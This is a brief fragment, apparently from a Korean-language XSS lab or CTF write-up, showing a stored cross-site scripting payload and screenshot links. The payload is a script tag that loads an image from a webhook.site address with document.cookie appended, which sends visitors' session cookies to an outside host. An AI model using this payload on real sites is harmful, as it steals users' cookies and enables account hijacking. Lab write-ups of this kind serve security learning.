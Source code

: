 ![xss5 payload](./screenshots/xss5_payload.png)

```html
<script>new Image().src="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01"+document.cookie</script>
```

**게시글 클릭 후 결과:**

![xss5 access](./screenshots/xss5_access.png)
